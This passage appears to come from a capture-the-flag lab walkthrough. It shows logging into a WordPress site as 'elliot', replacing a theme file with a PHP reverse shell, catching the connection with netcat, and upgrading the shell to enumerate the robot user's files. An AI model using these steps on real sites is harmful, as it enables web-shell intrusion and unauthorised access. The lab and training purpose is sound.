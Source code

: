 ```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 23:31:30
```

Also see: [hydra-usernames.log](hydra-usernames.log) and [hydra-passwords.log](hydra-passwords.log).

## Gaining Access

We can now log into this Wordpress site as "elliot". One way to exploit this access is to navigate to the browser-based file editor for the "archive.php": `/wp-admin/theme-editor.php?file=archive.php` 

Since this is not a heavily used page, you could replace the contents with a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) remembering to change the IP and port to your workstation. Save your changes. For example, you run `netcat` to listen for the incoming connection on port `9000`:

```bash
# Listen for incoming connections...
nc -lvnp 9000
```

Lastly, navigate to: `/wp-content/themes/twentyfifteen/archive.php` to initiate the reverse shell back to your workstation. You should see something like this in the window that was running `netcat`:

```bash
listening on [any] 9000 ...
connect to [10.6.78.155] from (UNKNOWN) [10.10.83.180] 47920
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 03:39:26 up 27 min,  0 users,  load average: 0.00, 1.05, 2.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can slightly upgrade our prompt with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Unprivileged Access

We now have a primitive prompt running as the `daemon` user. This user doesn't have any `sudo -l` privilege, doesn't have a home directory and can't do much.

We can look and see we have access to the `/home/robot` directory. Within there we have access to 1 of the 2 files:

```bash
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
